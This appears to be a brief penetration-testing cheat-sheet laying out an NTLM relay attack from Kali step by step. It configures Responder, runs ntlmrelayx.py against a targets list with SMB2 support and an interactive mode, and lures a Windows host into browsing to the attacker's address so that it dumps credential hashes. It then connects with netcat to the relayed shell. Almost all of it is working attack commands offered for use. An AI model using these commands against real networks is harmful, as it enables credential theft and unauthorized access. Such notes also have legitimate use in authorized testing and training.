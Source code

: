 On Kali:

- make sure you have a file called targets

- Edit /etc/responder/Responder.conf
- Turn off SMB and HTTP
- Save

```
responder -I eth0 -dwv
```

- Open a new shell

```
ntlmrelayx.py -tf targets.txt -smb2support
```

OR

- For interactive shell

```
ntlmrelayx.py -tf targets.txt -smb2support -i
```

On Windows Target:

- Open browser and go to '/<ip_address>'

This should trigger a hash dump of credentials

On Kali:

- open new tab

```
nc 127.0.0.1 11000
```


